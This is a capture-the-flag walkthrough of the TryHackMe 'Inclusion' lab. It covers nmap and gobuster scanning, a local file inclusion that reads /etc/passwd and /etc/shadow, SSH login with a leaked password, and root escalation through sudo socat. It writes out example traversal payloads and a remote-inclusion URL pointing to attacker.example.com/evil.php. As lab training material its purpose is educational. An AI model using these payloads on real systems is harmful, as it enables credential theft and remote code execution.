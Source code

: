 ```yaml
---
title: "Inclusion"
tags:
  - Easy
  - Linux
  - nmap
  - LFI
  - socat
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |    Easy    |  |  10.10.16.93  |  | [Inclusion](https://tryhackme.com/room/inclusion) |  |

---

Let's start off by running a basic `nmap` scan on the target machine with standard scripts loaded and version enumeration enabled. 

```
sudo nmap -sC -sV -vv 10.10.16.93
```

**Results:**

![screenshot1](../assets/images/inclusion/screenshot1.png)

As we can see, there are two services running on the target machine: **SSH (22)** and **HTTP (80)**.

Let's first check out the HTTP webserver. We are brought to this webpage:

![screenshot2](../assets/images/inclusion/screenshot2.png)

Looks like we have a simple blog.

Before conducting our happy-path enumeration, we can start a `gobuster` directory scan to see if we can enumerate any hidden directories.

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

We make sure to include common file extensions in our enumeration, such as .php and .js.

While the scan is going on, let's explore the website. 

Firstly, I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried searching for low-hanging fruit such as visiting the /robots.txt file, but those did not result in anything of use.

At the bottom of the web page, there were three sections dedicated to different blog posts. Looks like the posts taught us more about **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** attacks! This will be useful as I currently have no idea what those attacks are. 

Clicking on the 'View Details' button below the sections brought me to the blog posts. I checked the source code for each of these dedicated posts but there was nothing of interest.

Alright, time to learn more about LFI and RFI attacks.

---

### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. 

Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input 'module' and the value to be the file 'contact.php'. Of course, it would seem that contact.php is in the same directory as the calling file and hence, the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file on the filesystem, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local /etc/shadow file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a PHP script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded:

```
https://example.com/?module=../../../uploads/malicious.php
```

The web server will then execute the script.

### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a URL to another web server (controlled by the attacker) to execute malicious code that is hosted on that webserver. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```

---

Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. 

First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:

![screenshot3](../assets/images/inclusion/screenshot3.png)

Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practice file inclusion, which means that I could attempt to mount an attack there!

![screenshot4](../assets/images/inclusion/screenshot4.png)

It seemed that the web server was taking in an input 'name' and the filename that produced the wall of text shown on the page was called 'hacking'.

I'll try to change 'hacking' to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.

![screenshot5](../assets/images/inclusion/screenshot5.png)

The attack worked! The contents of the /etc/passwd file is displayed by the web server. 

Next, I'll try if I can read the /etc/shadow file. If I can do so, I'll be able to obtain the credentials of users on the machine.

![screenshot6](../assets/images/inclusion/screenshot6.png)

Sure enough, I could read the /etc/shadow file. From the file, I saw that that there was a user account called **falconfeast**. His hashed password was also exposed. 

At this stage, I wanted to use `john` to crack this password. However, looking more closely at the file, I noticed a comment:

![screenshot7](../assets/images/inclusion/screenshot7.png)

On the right, we can see the text: 

> #falconfeast:rootpassword 

Could 'rootpassword' be the password for falconfeast? To test this, I tried to ssh into falconfeast's account using the password:

![screenshot8](../assets/images/inclusion/screenshot8.png)

Nice, that was his password after all! 

With that, I was able to log into falconfeast's account and obtain **user.txt** from his home directory.

---

Now let's escalate our privileges. 

Before using a privilege escalation automation script like [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I first did some manual enumeration. 

Firstly, I ran the command `sudo -l` to see what sudo privileges that falconfeast had:

![screenshot9](../assets/images/inclusion/screenshot9.png)

Looks like he can run `socat` as root! Next, I went to [GTFOBins](https://gtfobins.github.io/gtfobins/socat/) to see if there were any vulnerabilities that I could exploit with this binary.

I managed to find a method using `socat` to spawn a shell as root:

![screenshot10](../assets/images/inclusion/screenshot10.png)

After running the command above, I managed to spawn a root shell:

![screenshot11](../assets/images/inclusion/screenshot11.png)

With that, I can easily navigate towards /root and obtain **root.txt**.

